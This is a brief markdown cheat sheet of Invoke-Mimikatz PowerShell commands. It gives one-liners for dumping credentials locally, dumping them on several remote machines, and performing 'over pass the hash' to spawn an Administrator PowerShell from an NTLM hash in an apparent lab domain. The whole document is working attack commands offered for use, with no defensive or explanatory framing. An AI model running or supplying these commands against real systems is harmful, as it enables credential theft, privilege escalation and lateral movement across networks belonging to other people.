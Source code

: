 # Invoke-Mimikatz 

## Dump credentials on a local machine
```powershell
Invoke-Mimikatz -DumpCreds
```

## Dump credentials on multiple remote machines
```powershell
Invoke-Mimikatz -DumpCreds -ComputerName @("sys1","sys2")
```

## "Over pass the hash" generate tokens from hashes
```powershell
Invoke-Mimikatz -Command '"sekurlsa::pth /user:Administrator /domain:dollarcorp.moneycorp.local /ntlm:<ntImhash> /run:powershell.exe"'
```